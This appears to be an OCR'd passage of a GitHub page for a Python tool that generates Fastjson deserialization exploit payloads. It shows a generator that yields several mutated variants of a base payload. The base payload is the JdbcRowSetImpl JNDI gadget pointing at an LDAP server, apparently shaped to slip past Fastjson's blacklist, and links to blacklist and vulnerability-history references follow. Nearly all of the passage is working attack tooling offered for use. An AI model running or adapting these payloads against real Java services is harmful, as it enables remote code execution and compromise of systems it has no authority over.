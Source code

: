 ```python
        return json.dumps(cache_payload)

    def gen(self):
        payloads = []

        payload1 = self.gen_payload1(self.base_payload)
        yield payload1

        payload2 = self.gen_payload2(self.base_payload)
        yield payload2

        payload3 = self.gen_payload3(self.base_payload)
        yield payload3

        payload4 = self.gen_payload4(self.base_payload)
        yield payload4

        payload5 = self.gen_payload5(self.base_payload)
        yield payload5

        payloads.append(payload1)
        payloads.append(payload2)
        payloads.append(payload5)

        for payload in payloads:
            yield self.gen_payload3(payload)
            yield self.gen_payload4(payload)


if __name__ == '__main__':
    fjp = FastJsonPayload('''{
  "rand1": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://localhost:1389/Object",
    "autoCommit": true
  }
}''')

    for payload in fjp.gen():
        print(payload)
        print()
```

## Blacklist acquisition
 - Reference project: [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

## refer to
 - [History of Fastjson deserialization vulnerability](https://paper.seebug.org/1192/)
 - [fastjson: I head north and leave the season with you](https://su18.org/post/fastjson/)